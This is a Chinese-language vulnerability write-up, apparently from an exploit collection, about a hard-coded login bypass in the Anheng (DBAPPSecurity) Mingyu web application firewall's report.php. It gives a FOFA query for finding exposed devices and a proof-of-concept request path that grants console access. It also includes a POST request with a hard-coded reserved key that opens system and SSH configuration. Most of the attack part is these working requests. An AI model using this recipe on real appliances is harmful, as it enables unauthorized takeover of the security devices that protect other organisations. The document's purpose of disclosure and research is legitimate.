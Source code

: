 # 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

```
安恒 明御WEB应用防火墙
```

## FOFA

```
app="安恒信息-明御WAF"
```

## 漏洞复现

登录页面

![image-20220824142132930](./images/202208241421007.png)

验证POC

```
/report.m?a=rpc-timed
```

![image-20220824142150382](./images/202208241421426.png)

再访问主页面跳转配置页面

![image-20220824142208002](./images/202208241422055.png)

发送请求包配置系统SSH等

```
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![image-20220824142219609](./images/202208241422661.png)